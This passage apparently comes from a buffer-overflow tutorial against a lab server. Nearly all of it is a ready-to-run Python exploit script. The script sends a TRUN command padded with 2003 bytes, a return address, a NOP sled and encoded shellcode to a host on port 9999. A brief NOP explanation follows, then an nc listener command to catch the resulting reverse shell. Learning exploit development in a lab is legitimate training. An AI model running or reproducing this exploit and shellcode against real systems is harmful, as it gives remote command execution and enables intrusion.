 ```
#!/usr/bin/python
import sys
import socket
# Python 2 version of this script

overflow = (
"\xbf\x22\xed\x7d\xab\xdb\xd3\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x52\x31\x78\x12\x03\x78\x12\x83\xca\x11\x9f\x5e\xf6\x02\xe2"
"\xa1\x06\xd3\x83\x28\xe3\xe2\x83\x4f\x60\x54\x34\x1b\x24\x59"
"\xbf\x49\xdc\xea\xcd\x45\xd3\x5b\x7b\xb0\xda\x5c\xd0\x80\x7d"
"\xdf\x2b\xd5\x5d\xde\xe3\x28\x9c\x27\x19\xc0\xcc\xf0\x55\x77"
"\xe0\x75\x23\x44\x8b\xc6\xa5\xcc\x68\x9e\xc4\xfd\x3f\x94\x9e"
"\xdd\xbe\x79\xab\x57\xd8\x9e\x96\x2e\x53\x54\x6c\xb1\xb5\xa4"
"\x8d\x1e\xf8\x08\x7c\x5e\x3d\xae\x9f\x15\x37\xcc\x22\x2e\x8c"
"\xae\xf8\xbb\x16\x08\x8a\x1c\xf2\xa8\x5f\xfa\x71\xa6\x14\x88"
"\xdd\xab\xab\x5d\x56\xd7\x20\x60\xb8\x51\x72\x47\x1c\x39\x20"
"\xe6\x05\xe7\x87\x17\x55\x48\x77\xb2\x1e\x65\x6c\xcf\x7d\xe2"
"\x41\xe2\x7d\xf2\xcd\x75\x0e\xc0\x52\x2e\x98\x68\x1a\xe8\x5f"
"\x8e\x31\x4c\xcf\x71\xba\xad\xc6\xb5\xee\xfd\x70\x1f\x8f\x95"
"\x80\xa0\x5a\x39\xd0\x0e\x35\xfa\x80\xee\xe5\x92\xca\xe0\xda"
"\x83\xf5\x2a\x73\x29\x0c\xbd\xd0\xbf\x63\x01\x41\xc2\x7b\x68"
"\xcd\x4b\x9d\xe0\xfd\x1d\x36\x9d\x64\x04\xcc\x3c\x68\x92\xa9"
"\x7f\xe2\x11\x4e\x31\x03\x5f\x5c\xa6\xe3\x2a\x3e\x61\xfb\x80"
"\x56\xed\x6e\x4f\xa6\x78\x93\xd8\xf1\x2d\x65\x11\x97\xc3\xdc"
"\x8b\x85\x19\xb8\xf4\x0d\xc6\x79\xfa\x8c\x8b\xc6\xd8\x9e\x55"
"\xc6\x64\xca\x09\x91\x32\xa4\xef\x4b\xf5\x1e\xa6\x20\x5f\xf6"
"\x3f\x0b\x60\x80\x3f\x46\x16\x6c\xf1\x3f\x6f\x93\x3e\xa8\x67"
"\xec\x22\x48\x87\x27\xe7\x68\x6a\xed\x12\x01\x33\x64\x9f\x4c"
"\xc4\x53\xdc\x68\x47\x51\x9d\x8e\x57\x10\x98\xcb\xdf\xc9\xd0"
"\x44\x8a\xed\x47\x64\x9f")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.10', 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error while connecting to server")
    sys.exit()
```
NOPs are padding, standing for No Operation. Without a NOP sled its possible our overflow might not actually work and we may not get command execution on the target because of some interference.
In situations where there is limited space for the exploit, you may have to adjust the NOP amount.
We also must set up a listener for our shellcode.
```
nc -nvlp 4444
```